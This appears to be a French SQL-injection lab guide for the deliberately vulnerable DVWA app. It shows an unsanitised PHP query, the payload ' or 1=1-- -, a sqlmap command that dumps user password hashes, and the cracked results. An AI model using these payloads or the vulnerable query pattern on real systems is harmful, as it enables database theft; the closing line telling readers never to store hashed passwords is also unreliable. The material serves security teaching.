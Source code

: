 # TP - formation sécu n°1

## Installation

```bash
    docker pull astronaut1712/dvwa
    docker pull googlesky/sqlmap
    docker run -p 80:80 astronaut1712/dvwa
```

## Démarrage

1. se connecter sur http://localhost/
2. create/reset database
3. s'identifier (admin / password)
4. aller sur la page [SQL injection](http://localhost/vulnerabilities/sqli/)

## Injection SQL

### Le code fautif

```php
    $id = $_REQUEST['id'];
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysql_query($query);
```

1. récupération d'un *query param* "id"
2. construction d'une requête SQL qui demande le prénom et le nom de l'utilisateur correspondant à l'id
3. exécution de la requête

### Utilisation normale

Saisir `5` dans le formulaire.
> `id = 5`
>
>```sql
>$query  = "SELECT first_name, last_name FROM users WHERE user_id = '5';";
>```
>
> La requête SQL envoyée à la base de donnée sera :
>> `SELECT first_name, last_name FROM users WHERE user_id = '5';`

### Détection de l'existence de la faille

Lorsque l'on saisit `'` dans le formulaire (juste une quote simple / une apostrophe), on obtient une erreur.

> `id = '`
>
>```sql
>$query  = "SELECT first_name, last_name FROM users WHERE user_id = ''';";
>```
>
> La requête SQL envoyée à la base de donnée sera :
>> `SELECT first_name, last_name FROM users WHERE user_id = ''';`

### Exploitation manuelle de la faille

> Par exemple, si `id = ' or 1=1-- -` (avec l'apostrophe et le "moins" à la fin)
>
>```sql
>$query = "SELECT first_name, last_name FROM users WHERE user_id = '' or 1=1-- -';";
>-------------------------------------------------------------------|__________|
>```
>
> La requête SQL envoyée à la base de donnée sera :
>> `SELECT first_name, last_name FROM users WHERE user_id = '' or 1=1`

1. la quote ferme la première chaîne de caractères
2. `or 1=1` est une condition toujours vraie
3. tout ce qui est après `--` est ignoré (commentaires)

### Exploitation automatisée

1. avec les DevTools -> storage -> cookies -> récupérer le PHPSESSID
2. lancer sqlmap en lui donnant le votre PHPSESSID

    >```bash
    >docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap -u "http://host.docker.internal/vulnerabilities/sqli/?id=1&Submit=Submit" \
    >   --cookie="PHPSESSID=crtiv3rujjvauflnodmeqk6uc5; security=low" --batch \
    >   -D dvwa -T users -C user,password --dump
    >```

3. les résultats obtenus sont :

    >```code
    >+---------+---------------------------------------------+
    >| user    | password                                    |
    >+---------+---------------------------------------------+
    >| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
    >| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
    >| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
    >| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
    >| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
    >+---------+---------------------------------------------+
    >```

4. essayer avec `--dump-all --all`
5. recherchez `8d3533d75ae2c3966d7e0d4fcc69216b` ou les autres hash de mots de passe sur google

## Conclusions

1. il s'agit d'un cas simple, délibérément vulnérable, pour que l'exercice reste simple
1. une injection SQL permet d'exécuter des requêtes SQL sur la base de données
![Bobby Tables](https://imgs.xkcd.com/comics/exploits_of_a_mom.png)
1. les répercussions peuvent être assez inattendues. Ici on peut récupérer :
    * les mots de passe des utilisateurs alors que le code php n'y fait pas référence
    * l'ensemble des bases de données du serveur
    * les droits des utilisateurs
1. il ne faut JAMAIS stocker des mots de passe hashés (md5 au autres)
1. voir <https://owasp.org/www-project-top-ten/>
